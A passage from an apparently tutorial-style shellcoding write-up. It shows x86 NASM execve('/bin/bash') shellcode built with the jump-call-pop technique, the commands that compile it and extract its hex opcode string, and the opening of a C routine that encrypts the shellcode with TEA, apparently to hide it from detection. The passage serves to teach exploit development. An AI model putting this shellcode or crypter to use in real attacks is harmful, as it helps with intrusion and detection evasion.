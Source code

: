 ```nasm
;A simple execve using the JUMP-CALL-POP technique
global _start

_start:
	;First part: JUMP
	jmp stage_1				;Jump to stage_1


stage_2:
	;Third part: POP
	pop esi				;Pop the "/bin/bash" string inside esi
	xor eax, eax				;Initialize eax to NULL
	mov BYTE [esi + 9], al		;Push a NULL byte on the stack
	mov DWORD [esi + 10], esi		;Push "/bin/bash" on the stack
	mov DWORD [esi + 14], eax		;Push a NULL byte on the stack

	lea ebx, [esi]			;Initiliaze ebx to "/bin/bash"
	lea ecx, [esi + 10]			;Initialize ecx to ["/bin/bash", NULL]
	lea edx, [esi + 14]			;Initialize edx to NULL
	mov al, 11				;Move execve systemcall number inside eax

	;Systemcall details:
    	; --> execve("/bin/bash%00", ["/bin/bash%00", NULL], NULL)
	int 0x80				;Execute systemcall


stage_1:
	;Second part: CALL
	call stage_2				;Use the CALL instruction to jump to stage_2
	shell: db "/bin/bash"		;The instruction to execute by execve
```

Let's compile it and get its hexadecimal representation:
```console
kali@kali:/tmp/$ nasm -f elf32 -o execve.o execve.nasm
kali@kali:/tmp/$ ld -m elf_i386 -z execstack -o execve execve.o
kali@kali:/tmp/$ objdump -d ./execve|grep '[0-9a-f]:'|grep -v 'file'| grep -v 'format' | cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

"\xeb\x18\x5e\x31\xc0\x88\x46\x09\x89\x76\x0a\x89\x46\x0e\x8d\x1e\x8d\x4e\x0a\x8d\x56\x0e\xb0\x0b\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68"
```


## 4) The encryption routine:
Below is the C code used to encrypt the previous shellcode using TEA encoding schema. 

All the details needed to understand this C code can be found by reading the commentaries:
```c
#include <stdint.h>
#include <string.h>
#include <stdlib.h>
#include <stdio.h>



/* This function is used to encrypt a message. The message is divided in blocks of 64 bits and then encrypt with a 128 bits key.
:param uint32_t v[2] -> the message to encrypt:
:param uint32_t k[4] -> the key used to encrypt:
*/
void encrypt (uint32_t v[2], uint32_t k[4]) 
{
```